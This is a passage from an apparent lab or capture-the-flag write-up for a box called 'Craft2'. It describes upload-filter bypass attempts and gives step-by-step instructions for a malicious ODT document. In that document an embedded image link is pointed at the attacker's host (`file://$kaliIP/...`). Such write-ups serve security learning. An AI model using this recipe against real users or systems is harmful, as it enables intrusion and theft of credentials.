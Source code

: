 We have a couple options here. We can try and spoof this file type, or we can potentially craft a malicious ODT file if we can figure out how to do that. I actually try a couple of things here playing around in Burp Suite, like trying to upload an .htaccess file to execute ODT files as php (not allowed) and trying to spoof the Content-Type. 

![Craft24.png](/assets/images/Craft2/Craft24.png){: .responsive-image}

Also not allowed.  Then I search my notes and realize that there is a similar path in the first Craft box that involves uploading a file with a malicious macro. So I try that again. 

![Craft25.png](/assets/images/Craft2/Craft25.png){: .responsive-image}

They're on to us. I search around for a different way to exploit malicious ODT files, and I find [this](https://secureyourit.co.uk/wp/2018/05/01/creating-malicious-odt-files/). Essentially the steps are as follows:

1. Create an ODT Document
2. Insert -> Object -> OLE Object
3. Pick whatever jpg you want. I used a portait of Orville Redenbacher. 
4. Save the file (as .odt). 
5. Rename the file to .zip. 
6. Open the .zip file and access the `content.xml` file with a text editor. 
7. Toward the bottom, there will be a link to the picture like so: ![Craft26.png](/assets/images/Craft2/Craft26.png){: .responsive-image} Change it to `xlink:href="file://$kaliIP/whatever.jpg`. 
8. Save the file (it will be a zip still).
9. Change the file type back to .odt. 
10. Upload the file. 
